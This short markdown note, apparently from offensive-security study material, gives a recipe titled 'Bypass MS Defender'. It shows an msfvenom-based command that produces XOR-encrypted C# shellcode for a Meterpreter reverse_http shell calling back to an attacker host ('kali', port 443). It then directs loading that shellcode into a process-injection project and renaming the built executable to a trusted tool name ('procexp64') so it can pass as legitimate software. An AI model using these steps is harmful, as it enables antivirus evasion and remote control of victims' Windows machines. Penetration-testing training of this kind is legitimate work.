 # Bypass MS Defender 

Generate Shellcode for C#

```shell
python3 shellcodeCrypter-msfvenom.py kali 443 xor cs 250 windows/x64/meterpreter/reverse_http
```

Clone the [Shellcode Process Injector](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Shellcode%20Process%20Injector) project and copy the previous shellcode at buf variable. `Build` -> `Batch Build` -> `Select a Build` -> Click on `Build` .

Rename the final executable. Use offical appilcation names like: procexp64

```shell
.\procexp64.exe
```

